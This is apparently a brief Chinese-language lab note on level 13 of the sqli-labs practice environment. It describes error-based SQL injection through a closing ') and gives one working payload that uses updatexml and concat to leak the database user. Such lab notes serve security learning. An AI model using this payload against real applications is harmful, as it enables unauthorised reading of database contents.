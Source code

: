 title: sql-labs 13关

less-13——基于’)的错误回显注入

注入语句：admin') union select updatexml(1,concat(0x7e,(select user()),0x7e),1)  --+

![image-20220330102319879](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20220330102319879.png)